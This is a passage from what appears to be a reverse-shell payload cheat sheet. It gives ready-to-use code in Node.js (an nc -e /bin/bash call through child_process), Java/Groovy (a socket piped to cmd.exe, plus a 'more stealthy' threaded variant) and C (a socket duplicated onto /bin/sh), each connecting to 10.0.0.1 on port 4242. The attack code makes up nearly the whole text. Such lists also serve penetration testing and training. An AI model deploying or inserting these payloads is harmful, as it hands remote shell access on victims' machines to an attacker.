 ```javascript

or

-var x = global.process.mainModule.require
-x('child_process').exec('nc 10.0.0.1 4242 -e /bin/bash')

or

https://gitlab.com/0x4ndr3/blog/blob/master/JSgen/JSgen.py
```

### Groovy

by [frohoff](https://gist.github.com/frohoff/fed1ffaab9b9beeb1c76)
NOTE: Java reverse shell also work for Groovy

```java
String host="10.0.0.1";
int port=4242;
String cmd="cmd.exe";
Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();
```

#### Groovy Alternative 1
**NOTE**: This is more stealthy

```java
Thread.start {
    // Reverse shell here
}
```

### C

Compile with `gcc /tmp/shell.c --output csh && csh`

```csharp
#include <stdio.h>
#include <sys/socket.h>
#include <sys/types.h>
#include <stdlib.h>
#include <unistd.h>
#include <netinet/in.h>
#include <arpa/inet.h>

int main(void){
    int port = 4242;
    struct sockaddr_in revsockaddr;

    int sockt = socket(AF_INET, SOCK_STREAM, 0);
    revsockaddr.sin_family = AF_INET;       
    revsockaddr.sin_port = htons(port);
    revsockaddr.sin_addr.s_addr = inet_addr("10.0.0.1");

    connect(sockt, (struct sockaddr *) &revsockaddr, 
    sizeof(revsockaddr));
    dup2(sockt, 0);
    dup2(sockt, 1);
    dup2(sockt, 2);

    char * const argv[] = {"/bin/sh", NULL};
    execve("/bin/sh", argv, NULL);
```
